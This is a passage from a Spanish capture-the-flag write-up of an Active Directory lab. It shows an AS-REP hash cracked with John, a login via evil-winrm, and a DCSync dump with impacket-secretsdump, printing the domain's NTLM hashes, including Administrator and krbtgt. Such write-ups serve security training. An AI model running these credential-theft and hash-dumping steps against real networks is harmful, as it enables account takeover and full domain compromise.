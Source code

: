 Como vemos, tendremos una coincidencia con el diccionario rockyou.txt por lo que visualizaremos la contraseña en texto claro que corresponderá al hash que hemos obtenido anteriormente:

```bash
john --show hash                             
```

```plaintext
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:Sheffield19

1 password hash cracked, 0 left
```

<br>

### WinRM
Una vez obtenemos la contraseña, procederemos a conectarnos a la máquina víctima de forma análoga a como lo habíamos hecho, con [evil-winrm](https://github.com/Hackplayers/evil-winrm):

```bash
evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
```

Una vez accedido a la máquina visualizaremos la flag user.txt en el directorio C:\Users\svc_bes\Desktop.

<br>

## Shell de administrador

### Enumeración
Para conseguir una shell de administrador, lo primero que haremos será enumerar nuevamente el directorio activo con [BloodHound](https://github.com/BloodHoundAD/BloodHound). En este caso usaremos la siguiente query: 

<img src="https://i.imgur.com/G1rufZ2.png" width="300"/>

Esta, nos indicará los usuarios que cuentan con permisos DCSync y cuáles son estos permisos:

<img src="https://i.imgur.com/L8ntwtJ.png" width="700"/>

Podemos ver que el usuario svc_bes cuenta con el permiso "GetChangesAll" sobre el dominio del directorio activo. Esto, nos permitirá listar los hashes NTLMv2 de todos los usuarios del directo activo, así como las keys de Kerberos de cada uno de ellos.

<br>

### NTLMv2
Para listar los hashes usaremos la herramienta SecretsDump de [Impacket](https://github.com/SecureAuthCorp/impacket):

```bash
impacket-secretsdump megacorp.local/svc_bes:Sheffield19@10.10.10.30
```

```plaintext
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:cc0d7ae2abacad631e16ad5c807dd432:::
[*] Kerberos keys grabbed
```